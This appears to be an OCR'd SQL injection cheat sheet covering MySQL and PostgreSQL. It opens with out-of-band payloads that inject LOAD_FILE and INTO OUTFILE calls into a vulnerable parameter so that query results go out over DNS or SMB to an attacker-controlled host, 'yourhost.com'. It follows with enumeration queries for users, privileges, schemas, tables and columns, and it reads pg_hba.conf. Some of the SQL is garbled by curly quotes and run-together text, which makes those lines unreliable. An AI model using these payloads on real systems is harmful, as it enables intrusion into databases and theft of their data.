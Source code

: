 Out of Band Channel | ?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), 'yourhost.com\\')));
. | - This command makes a NBNS query request/DNS resolution request to yourhost.com.
. | ?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt');
. | - This command writes data to your shared folder/file. {INJECTION} = You want to run the query.
Default Databases | information_schema (>= mysql 5.0)
. | mysql
Path of DB files | SELECT @@datadir C:\AppServ\MySQL\data\
Location of DB Files | SELECT @@datadir;
. | - This command obtains the location of DB files.
privileges | .
. | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
. | - This command lists list user privileges.
. | SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
. | - This command lists list various types of privileges.
. | list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
. | - This command lists privileges on databases (schemas).
. | SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
. | - This command lists privileges on columns.
------| ------

# POSTGRESSQL

Query | Command
------| ------
Version | SELECT version();
. | - This command obtains the version and built information of a database.
List Users | SELECT usename FROM pg_user;
. | - This command obtains the column ‘usename’ from the table ‘pg_user’.
Current User | SELECT user;
. | - This command obtains a name of recently logged in user.
. | SELECT current_user;
. | - This command obtains a name of current user.
. | SELECT session_user;
. | - This command obtains a name of current session user.
. | SELECT usename FROM pg_user;
. | - This command obtains the column ‘usename’ from table ‘pg_user’.
. | SELECT getpgusername();
. | - This command obtains the user name in current session.
List all Database | SELECT datname FROM pg_database;
. | - This command obtains the list of database in column ‘datname’ from table ‘pg_database’.
Current Database | SELECT current_database();
. | - This command obtains the current database.
Load File | SELECT pg_read_file('global/pg_hba.conf',0,10000000);
. | - This command is used to read only the content of the DATA directory.
List Tables | SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid);
. | - This command lists the tables present in the database. 
List Columns | SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’);
. | - This command lists the columns present in the database.
Select Nth Row | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0;
. | - This command returns rows numbered from 0.
. | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
. | - This command returns rows numbered from 1.